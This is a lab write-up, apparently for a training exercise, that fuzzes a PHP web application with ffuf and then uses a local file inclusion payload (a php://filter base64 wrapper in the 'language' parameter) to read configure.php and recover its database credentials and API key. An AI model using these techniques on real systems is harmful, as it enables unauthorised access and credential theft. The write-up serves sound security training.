



## Exercises

### Question 1 — Fuzz the web application for other php scripts, and then read one of the configuration files and submit the database password as the answer

Started by fuzzing for additional PHP scripts beyond `index.php`:

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ ffuf -u http://154.57.164.71:31657/FUZZ.php -w /usr/share/wordlists/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-lowercase-2.3-medium.txt:FUZZ -ic -c           


        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.3.0
________________________________________________

 :: Method           : GET
 :: URL              : http://154.57.164.71:31657/FUZZ.php
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-lowercase-2.3-medium.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

index                   [Status: 200, Size: 2652, Words: 690, Lines: 64, Duration: 34ms]
en                      [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 33ms]
es                      [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 34ms]
                        [Status: 403, Size: 281, Words: 20, Lines: 10, Duration: 3510ms]
configure               [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 35ms]
                        [Status: 403, Size: 281, Words: 20, Lines: 10, Duration: 33ms]
```

**Breakdown:**

- `ffuf` runs the fuzzer
- `-u http://154.57.164.71:31657/FUZZ.php` the target URL, with `FUZZ` marking the position each wordlist entry gets substituted into, and `.php` fixed on the end so every guess tests for a PHP file of that name
- `-w /usr/share/wordlists/seclists/.../DirBuster-2007_directory-list-lowercase-2.3-medium.txt:FUZZ` the wordlist to use, with `:FUZZ` naming the placeholder token the `-u` flag refers to
- `-ic` ignores comments in the wordlist file when parsing it (`-ic` = ignore comments)
- `-c` colours the output for readability in the terminal

`configure` came back with a `302` status (not `200`), which is the kind of result that's easy to overlook in normal browsing but worth checking under LFI — a redirect doesn't mean the file's source is unreachable, only that the file's own code is choosing to redirect when hit directly.



Checking `/configure.php` directly in the browser just bounced back to `index.php` — consistent with the ffuf output and the kind of guard clause these config files tend to carry.

Reused the `language` parameter, but this time wrapped the target in the base64 PHP filter instead of including it directly, to get the source instead of triggering the redirect:

```
http://154.57.164.71:31657/index.php?language=php://filter/read=convert.base64-encode/resource=configure
```

**Breakdown:**

- `php://filter/` invokes PHP's filter stream wrapper instead of a normal file path
- `read=convert.base64-encode` applies the base64-encode filter to the stream while it's read, rather than letting PHP parse and execute it
- `resource=configure` names the target file as `configure`, left without `.php` since the application appends that extension automatically, making the real resource read `configure.php`

The page returned an encoded string in place of the earlier redirect behaviour:



The on-page text was cut off, so pulled the full string from the page source instead of the rendered output:



```
—REDACTED—
```

Decoded it locally:

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ echo '—REDACTED—' | base64 -d 

<?php

if ($_SERVER['REQUEST_METHOD'] == 'GET' && realpath(__FILE__) == realpath($_SERVER['SCRIPT_FILENAME'])) {
  header('HTTP/1.0 403 Forbidden', TRUE, 403);
  die(header('location: /index.php'));
}

$config = array(
  'DB_HOST' => 'db.inlanefreight.local',
  'DB_USERNAME' => 'root',
  'DB_PASSWORD' => '—REDACTED—',
  'DB_DATABASE' => 'blogdb'
);

$API_KEY = "Awew242GDshrf46+35/k";     
```

**Breakdown:**

- `echo '...'` prints the full base64 string copied from the page source
- `|` pipes that output into the next command
- `base64 -d` decodes the piped base64 input back into the original file content (`-d` for decode)

The decoded `configure.php` source is exactly the kind of guard clause seen earlier — it checks whether the script is being hit directly (`realpath(__FILE__) == realpath($_SERVER['SCRIPT_FILENAME'])`) and redirects to `index.php` if so, which is why visiting `/configure.php` directly just bounced back. That check only fires when the file is requested _as the entry point_; reading it through the LFI as a data stream via the filter wrapper never triggers it, since PHP isn't executing the file as a script in that case.

**Answer:** `—REDACTED—`